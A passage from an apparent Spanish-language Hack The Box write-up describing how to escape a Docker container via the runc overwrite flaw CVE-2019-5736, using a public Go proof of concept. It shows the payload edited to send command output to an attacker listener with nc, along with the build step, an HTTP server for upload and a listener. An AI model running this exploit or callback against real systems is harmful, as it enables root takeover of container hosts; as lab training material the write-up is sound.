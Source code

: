 Nos indica que el binario `runc` (que se ejecuta cuando <<ejecutamos>> `Docker`) es vulnerable a ser sobreescrito y por consiguiente indicarle comandos para que sean ejecutados como el usuario `root` en la máquina host :O

> `runC`: ["command-line tool for spawning and running containers"](https://opensource.com/life/16/8/runc-little-container-engine-could).

Nice, busquemos referencias de exploits a ver cuál podemos usar:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce_githubLIST.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Tenemos varios, dándole unos ojazos, el más sencillo de entender es el de [Frichetten](https://github.com/Frichetten/CVE-2019-5736-PoC), esta hecho en `.go` y solo debemos mover un archivo al sistema, metámosle candela:

* [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

Lo clonamos en nuestra máquina y vemos el archivo `main.go`, explorándolo simplemente debemos modificar la variable `payload`, como prueba haré que nos envíe el resultado del comando `hostname` a nuestro listener en `nc`:

```go
...
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n hostname | nc 10.10.14.194 4433"
...
```

Bajando un poco (y leyendo el repo) nos indica lo que hará. Tomará el binario `/bin/sh` y lo sobreescribirá para que una vez sea ejecutado `Docker` este llame el binario `runC` y este a su vez sobreescriba el contenido del binario `/bin/sh` para que se transforme en el contenido de nuestra variable `payload` (o sea el comando `hostname` en este caso). Pero veremos la ejecución del payload una vez hagamos el llamado del binario `/bin/sh` (que en esta parte ya estaría modificado) en el contenedor (para esto necesitaremos otra Shell con el usuario `noah`, para primero ejecutar el binario `main` y por segundo ejecutar la explotación (el binario `/bin/sh`)).

Listo, guardamos y creamos el binario:

```bash
❭ go build main.go #Genera el binario "main"
❭ ls
main  main.go  README.md  screenshots
```

Listos, ahora podemos subirlo al contenedor, creemos un servidor en `Python` y de paso pongámonos en escucha con `nc`:

```py
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```
